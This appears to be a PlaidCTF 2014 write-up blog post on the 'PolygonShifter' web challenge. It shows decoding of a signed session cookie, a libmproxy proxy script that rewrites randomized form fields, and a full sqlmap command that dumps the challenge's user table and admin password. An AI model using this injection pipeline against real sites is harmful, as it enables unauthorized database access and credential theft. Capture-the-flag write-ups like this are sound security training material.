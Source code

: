 ```yaml
---
layout: post
title: "PlaidCTF 2014 Writeups"
description: ""
category: writeups
tags:
- plaidctf2014
- 2014
- plaidctf
- pctf
---
```

<!--{% include JB/setup %}-->

<a href="polygonshifter"></a>

### Web 100 - PolygonShifter

We're presented with a "bot-unfriendly" example login page. The names of the username and password fields in the source are generated with each page, along with the action path:

    <form action="/kd0Opm3615utl3YSLs0g" method="POST">
        <label for="" style="text-align:left;">Username</label>
        <input type="text" id="0YkfgNs8LGlEO9F9NwhM" name="8V7Qt7KtSJL3OW9zpwPj">
        <label for="I48lIt3mdAdDB0ErbYx3" style="text-align:left;">Password</label>
        <input type="password" id="I48lIt3mdAdDB0ErbYx3" name="kzDhvllIYyqf3uHH6lZN">
        <input class="primary large" type="submit" value="Login">
    </form>

We also receive a cookie `session`:

    .eJxdzU0LgjAAgOG_Ejt3UFcXoYvorGDJdJbtEnMuMj9xhjLpvxddyu7vwzsBLvq8qS 
    _XXJYZsCewSIENuEUGCp0e6_N4SI5G6h5YbIwa-2IDnkvQcqWGpsv-GWw9vmUq9UomE 
    1RheNxFLlOnYjVn-ddElKzevYEtsyCn0CN3B4lqz6SLP-ahZFfzSv6tAnSGcUJgBEMa
    FYOmpljL2oGx38zZzwqjsmNVFgh9w6E1IqpLP4jXkHvG2zxfx2xWgw.BiyFoA.MVsPd
    sBLjDQAqPoi9JQyAHAzQsQ

This is the form of a signed, timestamped data cookie. The period at the beginning of the string indicates that the cookie is zlib-compressed, `BiyFoA` is the representation of the timestamp, and `MVsPdsBLjDQAqPoi9JQyAHAzQsQ` is the signature of the cookie.

We can dissect cookies in Python:

    >>> session = '.eJxdzU0LgjAAgOG_Ejt3UFcXoYvorGDJdJbtEnMuMj9xhjLpvxd
    dyu7vwzsBLvq8qS_XXJYZsCewSIENuEUGCp0e6_N4SI5G6h5YbIwa-2IDnkvQcqWGps
    v-GWw9vmUq9UomE1RheNxFLlOnYjVn-ddElKzevYEtsyCn0CN3B4lqz6SLP-ahZFfzS
    v6tAnSGcUJgBEMaFYOmpljL2oGx38zZzwqjsmNVFgh9w6E1IqpLP4jXkHvG2zxfx2xW
    gw.BiyFoA.MVsPdsBLjDQAqPoi9JQyAHAzQsQ'
    >>> session = session.split('.')[1]
    >>> len(session)
    254
    >>> session += '='*(-len(session)%4) # add padding
    >>> import base64, zlib
    >>> zlib.decompress(base64.urlsafe_b64decode(session))
    '{"action_field":{" b":"a2QwT3BtMzYxNXV0bDNZU0xzMGc="},
      "password_field":{" b":"a3pEaHZsbElZeXFmM3VISDZsWk4="},
      "password_id":{" b":"STQ4bEl0M21kQWREQjBFcmJZeDM="},
      "username_field":{" b":"OFY3UXQ3S3RTSkwzT1c5enB3UGo="},
      "username_id":{" b":"MFlrZmdOczhMR2xFTzlGOU53aE0="}}'

`password_field` and `username_field` are the base64-encoded field names on the example login page.

Some attempts revealed that the username and password fields were vulnerable to SQL injection; we were able to achieve errors, and log in as `test` even when providing a username of `admin`. sqlmap would be the tool to use, except the form submission path, username field name, and password field name, are randomized and then stored in a signed cookie. Each request must be submitted to a different path with random parameter names, and sqlmap is not suited to doing this.

So, we used libmproxy to build a proxy to rewrite outgoing requests, and direct sqlmap to pass requests through it:

    from libmproxy import controller, proxy, flow
    import os
    import base64
    import zlib
    import json
    class StickyMaster(controller.Master):
        def __init__(self, server):
            controller.Master.__init__(self, server)
            self.cookies=[]
        def run(self):
            try:
                return controller.Master.run(self)
            except KeyboardInterrupt:
                self.shutdown()

        def handle_request(self, msg):
            hid = (msg.host, msg.port)
            msg.headers["Cookie"] = ['; '.join(self.cookies)]
            msg.headers['User-Agent'] = ['Mozilla/5.0 (X11; Linux x86_64) \
                AppleWebKit/537.36 (KHTML, like Gecko) Chrome/33.0.1750.152\
                Safari/537.36']
            if msg.path == '/ACTIONPLS':
                msg.path = '/'+base64.b64decode(self.fields['action_field'][' b'])
                print "Changing path to", msg.path
                params = msg.get_form_urlencoded()
                u_param = [params['username'][0]]
                p_param = [params['password'][0]]
                print "incoming parameters: ",u_param, p_param
                newparams = flow.ODict()
                newparams[base64.b64decode(self.fields['username_field'][' b'])] = u_param
                newparams[base64.b64decode(self.fields['password_field'][' b'])] = p_param 
                print "Changed params to:"
                print newparams
                msg.set_form_urlencoded(newparams)
            msg.reply()

        def handle_response(self, msg):
            hid = (msg.request.host, msg.request.port)
            print "response", hid
            if msg.headers["set-cookie"]:
                print msg.headers["set-cookie"]
                self.cookies = [x.split(';')[0] for x in msg.headers["set-cookie"] if 'delete' not in x]   
                self.scookie = self.cookies[0].split('=')[1]
                self.fields = self.scookie.split('.')[1]
                self.fields+=('='*(-len(self.fields)%4))
                self.fields = json.loads(zlib.decompress(base64.urlsafe_b64decode(self.fields)))
                print self.fields
            msg.reply()


    config = proxy.ProxyConfig()
    server = proxy.ProxyServer(config, 7222)
    m = StickyMaster(server)
    m.run()

The proxy will rewrite `username` and `password` using the field names from the most recent signed cookie, and change the request path similarly. Then, we can use sqlmap to inject on fields named `username` and `password` using the URL `/ACTIONPLS`. The final step is to ensure that each outgoing request has a fresh signed cookie. We use the `--eval` sqlmap flag to send a request to `/example` before each injection attempt, also through the proxy. The final sqlmap command we used is:

    sqlmap -u "http://54.204.80.192/ACTIONPLS" --data="username=test&password=test"\
     --proxy="http://127.0.0.1:7222"\
     --eval="import urllib,time; urllib.urlopen('http://54.204.80.192/example',\
    proxies={'http':'http://127.0.0.1:7222'});"\
     -s /tmp/sqlmapoutputEVk5JE/54.204.80.192/session.sqlite\
     --exclude-sysdbs -T polygon_user --threads=8 --dump -D polygon_db

The output:

    Database: polygon_db
    Table: polygon_user
    [2 entries]
    +----+----------+--------------------------------+
    | id | username | password                       |
    +----+----------+--------------------------------+
    | 1  | test     | test                           |
    | 2  | admin    | n0b0t5_C4n_bYpa5s_p0lYm0rph1Sm |
    +----+----------+--------------------------------+

Logging in as admin with that password displays `my password is the flag`, which it is!
